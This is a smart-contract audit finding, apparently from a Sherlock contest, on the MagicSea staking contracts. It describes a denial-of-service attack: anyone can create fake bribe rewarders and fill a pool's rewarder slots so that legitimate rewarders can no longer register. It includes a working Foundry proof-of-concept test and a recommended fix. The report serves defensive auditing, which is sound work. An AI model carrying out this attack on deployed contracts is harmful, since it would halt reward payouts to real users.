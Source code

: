 Clever Paisley Ladybug

Medium

# DoSing the rewarding system by flooding the `onRegister()` function with fake rewarders

## Summary
We can create fake rewarders and register them to fool voters and dos the onRegister() function for all pools leading to disabling the rewarding system.

## Vulnerability Detail
To create a new BribeRewarder we can either call the `createRewarder()` or `createBribeRewarder()` in the `RewarderFactory`.
createRewarder() function performs a check of ownership before allowing to create a new bribrewarder. However, this check could be bypassed by simply calling the `createBribeRewarder()` function.

```solidity
function createBribeRewarder(IERC20 token, address pool) external returns (IBribeRewarder rewarder) {
        rewarder = IBribeRewarder(_cloneBribe(RewarderType.BribeRewarder, token, pool));

        emit BribeRewarderCreated(RewarderType.BribeRewarder, token, pool, rewarder);
    }
```
As you can see this function direcly call the _cloneBribe() function to create the BribeRewarder, without a check if the token is a legitimate one or if the pool even exists.
Now that we have the fake rewarder, we can register it for that specific pool by calling the `fundAndBribe()` function.

```solidity
function fundAndBribe(uint256 startId, uint256 lastId, uint256 amountPerPeriod) external payable onlyOwner {
        IERC20 token = _token();
        uint256 totalAmount = _calcTotalAmount(startId, lastId, amountPerPeriod);

        if (address(token) == address(0)) {
            if (msg.value < totalAmount) {
                revert BribeRewarder__InsufficientFunds();
            }
        } else {
            token.safeTransferFrom(msg.sender, address(this), totalAmount);
        }

        _bribe(startId, lastId, amountPerPeriod);
    }
```

The registration of the rewarder is performed at the end by calling the _bribe() function, which itself perform an external call to the onRegister() function in the voter contract.

```solidity
    function _bribe(uint256 startId, uint256 lastId, uint256 amountPerPeriod) internal {
        _checkAlreadyInitialized();
        if (lastId < startId) revert BribeRewarder__WrongEndId();
        if (amountPerPeriod == 0) revert BribeRewarder__ZeroReward();

        IVoter voter = IVoter(_caller);

        if (startId <= voter.getCurrentVotingPeriod()) {
            revert BribeRewarder__WrongStartId();
        }

        uint256 totalAmount = _calcTotalAmount(startId, lastId, amountPerPeriod);

        uint256 balance = _balanceOfThis(_token());

        if (balance < totalAmount) revert BribeRewarder__InsufficientFunds();

        _startVotingPeriod = startId;
        _lastVotingPeriod = lastId;
        _amountPerPeriod = amountPerPeriod;

        // create rewads per period
        uint256 bribeEpochs = _calcPeriods(startId, lastId);
        for (uint256 i = 0; i <= bribeEpochs; ++i) {
            _rewards.push();
        }

        _lastUpdateTimestamp = block.timestamp;

        IVoter(_caller).onRegister();

        emit BribeInit(startId, lastId, amountPerPeriod);
    }
```

```solidity
function onRegister() external override {
        IBribeRewarder rewarder = IBribeRewarder(msg.sender); 

        _checkRegisterCaller(rewarder);

        uint256 currentPeriodId = _currentVotingPeriodId;
        (address pool, uint256[] memory periods) = rewarder.getBribePeriods();
        for (uint256 i = 0; i < periods.length; ++i) {
            // TODO check if rewarder token + pool  is already registered

            require(periods[i] >= currentPeriodId, "wrong period");
            require(_bribesPerPriod[periods[i]][pool].length + 1 <= Constants.MAX_BRIBES_PER_POOL, "too much bribes");
            _bribesPerPriod[periods[i]][pool].push(rewarder);
        }
    }
```

As you can see the onRegister function allow each pool to have a maximum number of 5 rewarders. therefore, by creating multiple fake rewarders we can DoS this function by making it reverting with a "too much bribes" error message each time a new real rewarder try to register for all pools, leading to a complet halt of the rewarding system for votes.

Here is a Proof of Concept that you can add to the `BribeRewarder.t.sol` file to reproduce this vulnerability:
```solidity
function testDoSOnRegister() public {
        ERC20Mock(address(rewardToken)).mint(address(this), 20e18);
        ERC20Mock(address(rewardToken)).approve(address(rewarder), 20e18);

        // this is the address of the fake reward token 
        IERC20 fakeRewardToken = IERC20(new ERC20Mock("Fake Reward Token", "FRT", 6));

        // Step 1 generate at least 5 fake rewarders:

        BribeRewarder fakeRewarder1;
        BribeRewarder fakeRewarder2;
        BribeRewarder fakeRewarder3;
        BribeRewarder fakeRewarder4;
        BribeRewarder fakeRewarder5;

        fakeRewarder1 = BribeRewarder(payable(address(factory.createBribeRewarder(fakeRewardToken, pool))));
        fakeRewarder2 = BribeRewarder(payable(address(factory.createBribeRewarder(fakeRewardToken, pool))));
        fakeRewarder3 = BribeRewarder(payable(address(factory.createBribeRewarder(fakeRewardToken, pool))));
        fakeRewarder4 = BribeRewarder(payable(address(factory.createBribeRewarder(fakeRewardToken, pool))));
        fakeRewarder5 = BribeRewarder(payable(address(factory.createBribeRewarder(fakeRewardToken, pool))));

        
        ERC20Mock(address(fakeRewardToken)).mint(address(this), 20e18);
        ERC20Mock(address(fakeRewardToken)).approve(address(fakeRewarder1), 20e18);

        ERC20Mock(address(fakeRewardToken)).mint(address(this), 20e18);
        ERC20Mock(address(fakeRewardToken)).approve(address(fakeRewarder2), 20e18);

        ERC20Mock(address(fakeRewardToken)).mint(address(this), 20e18);
        ERC20Mock(address(fakeRewardToken)).approve(address(fakeRewarder3), 20e18);

        ERC20Mock(address(fakeRewardToken)).mint(address(this), 20e18);
        ERC20Mock(address(fakeRewardToken)).approve(address(fakeRewarder4), 20e18);

        ERC20Mock(address(fakeRewardToken)).mint(address(this), 20e18);
        ERC20Mock(address(fakeRewardToken)).approve(address(fakeRewarder5), 20e18);


        // Here we try to register the fake rewarders for the targeted pool
        
        fakeRewarder1.fundAndBribe(1, 2, 1);
        fakeRewarder2.fundAndBribe(1, 2, 1);
        fakeRewarder3.fundAndBribe(1, 2, 1);
        fakeRewarder4.fundAndBribe(1, 2, 1);
        fakeRewarder5.fundAndBribe(1, 2, 1);

        // until here everything should be okey
        
        // now we try to register our legitimate rewarder
        vm.expectRevert(bytes("too much bribes"));
        rewarder.fundAndBribe(1, 2, 1);
       
    }
```

## Impact
This vulnerability will lead to disabling the whole rewarding system.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/rewarders/RewarderFactory.sol#L109-L113

## Tool used
Manual Review

## Recommendation
You can either add the `_checkOwner()` check to the code, to only allow Owner to create new BribeRewarder.
Or you can use a whitelisted tokens for rewarder and add a minimum funding value.